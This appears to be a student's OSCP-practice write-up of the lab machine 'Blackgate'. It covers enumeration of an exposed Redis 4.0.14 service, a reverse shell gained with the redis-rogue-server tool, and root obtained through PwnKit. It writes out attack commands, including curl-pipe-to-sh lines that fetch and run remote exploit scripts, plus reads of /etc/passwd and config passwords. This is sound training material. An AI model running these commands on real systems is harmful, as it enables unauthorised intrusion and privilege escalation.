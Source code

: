```yaml
---
Date: 2024-10-14
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Hard
Status: In progress
IP: 192.168.243.176
Writeup: https://medium.com/@gleasonbrian/offsec-proving-grounds-blackgate-writeup-49920d4188de
---
```

# Blackgate
This is the first of the "Hard" machines I've tackled, so I'd been worried it may have been a major step up from what I'd been doing previously. Surprisingly though, this was very much a case of googling and learning about a service I'd never heard of (Redis), connecting to it to test a few commands, and then finding the version I was connected to had a well known RCE exploit and using it to achieve initial access!

Privilege escalation proved to be a bit more of a minefield though, mostly because I fixated on the fact the user had "run as root with no password" privileges for the same service I'd just abused to gain initial access - my first instinct was to try to learn more about Redis and potentially abuse the sudo privileges to achieve `root` access. 

In the end I ran `linpeas.sh` and identified that the target machine was vulnerable to `PwnKit`. Generally I've been ignoring the vulnerabilities `Linpeas.sh` recommends because they're often low-probability kernel exploits and are more effort to test than searching more something more obvious. In this case though, the PwnKit exploit I found is a super-simple one-liner, so I just ran it and got `root`!

The lesson here is to use what Linpeas is telling me, and not to be afraid of trying a kernel exploit if there's not a more obvious way to privilege escalate to root.

# Resolution summary
- Ran Nmap to identify ports `22` & `6379`
- Identified port `6379` as being associated with `redis`
- Researched `redis`, connected with netcat, and enumerated
- Identified `redis 4.0.14` and found RCE exploit
- Ran exploit and achieved reverse shell
- Enumerated target host & identified PwnKit vulnerability
- Ran exploit command, achieved `root` and printed `proof.txt`
## Improved skills
- Redis access and exploitation
- Privilege escalation with PwnKit vulnerability
## Used tools
- nmap
- python
- redis

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -T5 192.168.243.176 -v
sudo nmap -p 22,6379 -A 192.168.243.176 -v -oN Blackgate.nmap
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 37:21:14:3e:23:e5:13:40:20:05:f9:79:e0:82:0b:09 (RSA)
|   256 b9:8d:bd:90:55:7c:84:cc:a0:7f:a8:b4:d3:55:06:a7 (ECDSA)
|_  256 07:07:29:7a:4c:7c:f2:b0:1f:3c:3f:2b:a1:56:9e:0a (ED25519)
6379/tcp open  redis   Redis key-value store 4.0.14
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (95%), Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 38.448 days (since Sun Sep  8 09:17:53 2024)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.3p1)
No enumeration conducted
## Port 80 - 6379 (Redis 4.0.14)
- Identified `Redis 4.0.14` from NMap scan, and attempted to connect with `nc -vn 192.168.243.176 6379`
![[Cybersecurity-Resources/images/Pasted image 20241016210705.png]]
- Enumerated `redis` with command `INFO`
![[Cybersecurity-Resources/images/Pasted image 20241016210758.png]]
- Enumerated `redis` with command `client list`
![[Cybersecurity-Resources/images/Pasted image 20241016211014.png]]
- Enumerated `redis` with command `CONFIG GET *` and identified `dump.rdb`
![[Cybersecurity-Resources/images/Pasted image 20241016211113.png]]
---
# Exploitation
- Identified `redis 4.0.14` is vulnerable to [CVE-2022-0543](https://nvd.nist.gov/vuln/detail/CVE-2022-0543)
- Identified Redis(<=5.05) RCE exploit from `https://github.com/n0b0dyCN/redis-rogue-server`
- Ran `./redis-rogue-server.py --rhost 192.168.243.176 --lhost 192.168.45.205` with command for reverse shell to port `4444`
![[Cybersecurity-Resources/images/Pasted image 20241016213143.png]]
- Caught reverse shell with netcat listener on port `4444` with user `prudence`
![[Cybersecurity-Resources/images/Pasted image 20241016213258.png]]

---
# Privilege Escalation
## Local Enumeration
 - Ran `cat /home/prudence/local.txt` and printed local flag `704c046724f3d52f31c9567446105364`
 ![[Cybersecurity-Resources/images/Pasted image 20241016213517.png]]
- Ran `cat /home/prudence/notes.txt` and identified `protected mode` not turned on
![[Cybersecurity-Resources/images/Pasted image 20241016213959.png]]
- Ran `cat /etc/passwd` to identify any other users
![[Cybersecurity-Resources/images/Pasted image 20241016213707.png]]
- Ran `sudo -l` to check `sudo` privileges and identified `prudence` can run `/usr/local/bin/redis-status` without a password
![[Cybersecurity-Resources/images/Pasted image 20241016213841.png]]
- Ran `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` to download & run `linpeas.sh` 
![[Cybersecurity-Resources/images/Pasted image 20241016221127.png]]
- Identified potential vulnerabilities for privilege escalation
![[Cybersecurity-Resources/images/Pasted image 20241016220933.png]]
- script crashed at `Analyzing Redis Files`
![[Cybersecurity-Resources/images/Pasted image 20241016215416.png]]
- Checked for `redis.conf` and ran `grep -i pass /etc/redis/redis.conf` to check for passwords
![[Cybersecurity-Resources/images/Pasted image 20241016220223.png]]
- Ran `sudo /usr/local/bin/redis-status` and identified `redis-service` requires authorization key
![[Cybersecurity-Resources/images/Pasted image 20241016220419.png]]
## Privilege Escalation vector
- Identified target is potentially vulnerable to CVE-2021-4034 (PwnKit) and found exploit at `https://github.com/ly4k/PwnKit/tree/main`
- Ran `sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"` on target and achieved `root` access
![[Cybersecurity-Resources/images/Pasted image 20241016221513.png]]
- Ran `cat /root/proof.txt` to print `deefd9189289f94bf366e55ae58fdfd3`
![[Cybersecurity-Resources/images/Pasted image 20241016221614.png]]
---
# Trophy & Loot
`local.txt` = `704c046724f3d52f31c9567446105364`
`proof.txt` = `deefd9189289f94bf366e55ae58fdfd3`
